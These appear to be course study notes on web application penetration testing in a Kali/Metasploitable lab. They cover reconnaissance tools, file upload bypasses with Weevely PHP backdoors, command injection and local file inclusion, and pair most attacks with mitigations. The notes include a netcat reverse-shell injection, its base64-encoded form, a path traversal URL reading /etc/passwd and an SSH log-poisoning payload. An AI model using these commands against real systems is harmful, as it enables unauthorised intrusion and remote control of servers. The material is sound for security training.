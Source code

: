 [[Security of web applications]]
## Lab Setup

- **Virtual Box Environment**: Creates isolated virtual machines for safe penetration testing
    - **Kali Linux**: A specialized Debian-based Linux distribution pre-loaded with hundreds of security tools. Acts as the attacker machine in penetration tests.
    - **Metasploitable**: Deliberately vulnerable Linux system designed for security training. Contains multiple vulnerable web applications like Mutillidae with pre-configured vulnerabilities.
    - **Configuration Requirements**: Both machines should be on the same network (NAT Network in VirtualBox) to communicate with each other while remaining isolated from your real network.
    - **Verification Steps**: After setup, verify machine connectivity (using ifconfig), test login credentials, and ensure the web server on Metasploitable is accessible from Kali.

## Information Gathering Techniques

1. **WHOIS Protocol Analysis**
    
    - **Purpose**: Acts as the reconnaissance phase of penetration testing
    - **Information Revealed**: Domain registrar, creation/expiration dates, registrant contact details, nameservers
    - **Tools Used**: whois.domaintools.com, who.is
    - **Strategic Value**: Helps identify the domain owner, hosting provider, and potential contact points for social engineering
    - **Usage Example**: Enter a domain name and receive comprehensive registration information that can reveal organizational structure
2. **Technology Detection**
    
    - **Purpose**: Identifies server-side and client-side technologies to target specific vulnerabilities
    - **Information Discovered**: Web server type (Apache, Nginx), programming languages (PHP, Python), frameworks (Laravel, Django), CMS platforms (WordPress, Joomla)
    - **Tools Available**: netcraft.com, builtwith.com, wappalyzer.com, whatcms.org
    - **Exploitation Approach**: Once technologies are identified, cross-reference with exploit-db.com to find known vulnerabilities for those specific versions
    - **Example**: Discovering an outdated WordPress version allows targeting known security issues in that specific release
3. **DNS Analysis**
    
    - **Purpose**: Maps the domain infrastructure and reveals hidden assets
    - **Information Gathered**: IP addresses, subdomains, mail servers, DNS record types
    - **Tools Used**: robtex.com presents visual graphs showing relationships between domains and IPs
    - **Subdomain Discovery**: Find potentially vulnerable testing/development environments using tools like Knock
    - **Cross-Server Analysis**: Identify other websites hosted on the same server that might have weaker security
    - **Command Example**: `python3 knockpy.py target.com` to bruteforce subdomain discovery
4. **Website Structure Discovery**
    
    - **Purpose**: Reveals hidden directories, files, and application structure
    - **Tool Operation**: dirb performs brute force directory and file discovery using wordlists
    - **Command Syntax**: `dirb http://target.com /usr/share/dirb/wordlists/big.txt [options]`
    - **Key Options**:
        - `-r`: Non-recursive search
        - `-o`: Output to file
        - `-u`: Username/password for protected areas
    - **High-Value Discoveries**: Configuration files, backup files, admin interfaces, phpinfo.php pages
    - **Example Target**: Finding unlinked admin panels or configuration files with credentials
5. **Comprehensive Data Collection with Maltego**
    
    - **Purpose**: Visual mapping of all target assets and relationships
    - **Features**: Graphical interface that shows connections between different entities
    - **Entity Types**: Domains, IP addresses, email addresses, people, organizations
    - **Transform Functions**: Automated discovery tools that expand from one entity to related entities
    - **Usage Process**: Start with a domain name, then apply transforms to discover connected infrastructure
    - **Practical Value**: Creates a comprehensive attack surface map for more efficient targeting

## File Upload Vulnerabilities

1. **Basic Exploitation**
    
    - **Vulnerability Mechanism**: Insecure file upload functions allow attackers to upload executable code
    - **Attack Tool**: Weevely generates disguised PHP backdoors that provide shell access
    - **Process Steps**:
        1. Generate backdoor: `weevely generate password shell.php`
        2. Upload the shell through vulnerable form
        3. Connect to shell: `weevely http://target.com/uploads/shell.php password`
        4. Execute commands on the server
    - **Capabilities**: File system access, database access, privilege escalation attempts
2. **Bypass Techniques**
    
    - **Medium Security Bypass**:
        - **Challenge**: Server checks file extensions (only allows .jpg, .png, etc.)
        - **Solution**: Use Burp Suite to intercept HTTP requests
        - **Method**: Upload file with .jpg extension, then modify the filename in transit to .php
        - **Technique**: Intercept the upload request in Burp, modify the Content-Disposition header
    - **High Security Bypass**:
        - **Challenge**: Server checks both file extension and MIME type
        - **Solution**: Use double extensions (.php.jpg) to confuse validation
        - **Method**: Upload file with .php.jpg extension, then modify in transit
        - **Server Behavior**: Some configurations only check the last extension
3. **Mitigation Strategies**
    
    - **Whitelist Extensions**: Only allow specific safe extensions instead of blacklisting dangerous ones
    - **Validate File Content**: Check file headers and content type, not just extensions
    - **Process Uploaded Files**:
        - Recreate images using libraries like php-Imagick
        - Strip metadata that could contain malicious code
        - Generate new filenames to prevent path manipulation
    - **Storage Segregation**: Store uploads outside the web root or on separate services
    - **Implement Content-Disposition**: Force downloads rather than browser execution

## Code Execution Vulnerabilities

1. **Exploitation Methods**
    
    - **Vulnerability Pattern**: Applications that pass user input to system command functions
    - **Command Injection Techniques**:
        - Basic injection: adding a semicolon (`;`) to terminate the original command
        - Example: `ping 10.0.2.4;pwd` executes ping then the pwd command
        - Alternate method: Using pipe (`|`) for command chaining
    - **Reverse Shell Creation**:
        1. Set up listener on attacker machine: `nc -vv -l -p 8081`
        2. Inject command: `10.0.2.4;nc -e /bin/sh 10.0.2.15 8081`
        3. Gain interactive shell access to execute arbitrary commands
    - **Security Level Bypasses**:
        - Low security: Direct command injection with semicolons
        - Medium security: Using pipe characters instead of semicolons
        - Changing ports to avoid blocked connections
2. **Mitigation Approaches**
    
    - **Input Validation**: Use regular expressions to ensure inputs match expected patterns
    - **Avoid Dangerous Functions**: Don't use system(), exec(), shell_exec() with user input
    - **Parameter Binding**: Use prepared statements for database queries
    - **Sandboxing**: Execute commands in restricted environments
    - **Implementation Example**: Validate IP addresses with regex pattern to ensure only valid IPs are processed

## Local File Inclusion Vulnerabilities

1. **Exploitation Techniques**
    
    - **Vulnerability Concept**: Web applications that include files based on user input
    - **Path Traversal**: Using `../` sequences to navigate directory structure
        - Example: `http://10.0.2.5/dvwa/vulnerabilities/fi/?page=../../../../../etc/passwd`
    - **Target Files**:
        - `/etc/passwd`: Contains user account information
        - `/proc/self/environ`: Shows environment variables
        - `/var/log/auth.log`: Authentication logs
        - `/var/log/apache2/access.log`: Web server logs
    - **Dynamic Code Execution**:
        - Inject PHP code into User-Agent header via Burp
        - Target reads environment variables via `/proc/self/environ`
        - Code executes when page is included
        - Example: `<?php phpinfo(); ?>` in User-Agent header
    - **Advanced Log Poisoning**:
        - Inject PHP code into log files by making malformed requests
        - SSH login attempts with PHP code as username
        - Encode payloads in base64 to bypass filters
        - Command: `ssh "<?php system(base64_decode('command_in_base64')); ?>"@target.com`
2. **Bypass Methods for Higher Security Levels**
    
    - **Filter Evasion**:
        - Encode malicious PHP code in base64 to avoid character filtering
        - Use alternative PHP tags when standard ones are filtered
    - **Log File Manipulation**:
        - Write to log files via failed authentication attempts
        - Clean up log files to remove error-causing entries
    - **Command Encoding**:
        - Convert shell commands to base64: `bmMgLWUgL2Jpbi9zaCAxMC4wLjIuMTUgODA4MQ==`
        - Decode and execute on target: `base64_decode('encoded_string')`
